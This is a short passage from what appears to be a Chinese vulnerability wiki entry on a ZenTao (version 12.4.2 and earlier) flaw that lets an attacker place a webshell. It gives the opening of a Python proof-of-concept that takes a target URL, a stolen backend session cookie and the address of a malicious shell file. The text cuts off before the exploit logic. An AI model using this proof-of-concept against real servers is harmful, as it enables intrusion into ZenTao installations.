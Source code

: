 成功上传webshell

![](/images/202202162311177.png)

## 漏洞POC

- POC使用需要拥有后台Cookie

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
    print('+  \033[34mVersion: zentao version <= 12.4.2                                 \033[0m')
    print('+  \033[36m使用格式: python3 CNVD-C-2020-121325.py                             \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mShell       >>> http://xxx.xxx.xxx.xxx/shell.php(恶意文件地址)       \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
```